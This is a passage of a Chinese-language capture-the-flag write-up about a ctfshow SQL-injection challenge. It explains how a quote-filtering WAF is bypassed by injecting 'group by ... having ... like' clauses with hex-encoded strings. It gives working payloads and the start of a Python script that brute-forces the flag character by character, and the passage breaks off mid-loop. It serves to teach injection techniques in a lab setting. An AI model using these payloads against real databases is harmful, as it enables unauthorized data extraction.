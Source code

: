 这里我们先补充知识点

```sql
 $sql = "select count(*) from ".$_POST['tableName'].";";
 
这里我们可以看见前面使用了 count聚合函数
 
所以我们后面可以使用 group by having 这种用法
 
group by 允许我们按照某个列进行分组
 
having 允许对分组的数据再进行数据的筛选
 
所以我们可以使用
 
 
group by pass having pass like ''  
 
或者
 
group by pass having pass regexp ''
```

但是这里有个问题 就是 单引号双引号被过滤了 我们无法实现

怎么办呢 我们可以转换为 hex 进行执行

这里为什么可以直接通过regexp然后调用16进制

我在本地测试的时候发现 需要通过

```sql
SELECT COUNT(*) FROM admin GROUP BY name HAVING HEX(name) LIKE '61%'
```

这种语句才可以通过十六进制查询 这里为什么可以我还不是很明白

我们可以开始写payload

```cobol
ctfshow_user group by pass having pass like (0x63746673686f777b%)
```

然后我就了然了

这里语句是错误的 因为我们如果使用十六进制拼接% 会报错

所以我们将 % 也转变为hex 就是25

### HAVING 配合 like

```cobol
ctfshow_user group by pass having pass like (0x63746673686f777b25)
```

这个时候 就可以回显正确的值了

这个时候我们只需要通过编写脚本即可

```cobol
import requests
import string
url = "http://0890718d-8277-4712-8927-3ac132f6bd31.challenge.ctf.show/select-waf.php"
 
paylaod = "ctfshow_user group by pass having pass like 0x63746673686f777b{0}"
 
uuid = string.ascii_lowercase+string.digits+"-{}"
def str_to_hex(str):
    return ''.join([hex(ord(c)).replace('0x','') for c in str])
flag =''
for i in range(1,100):
    for j in uuid:
```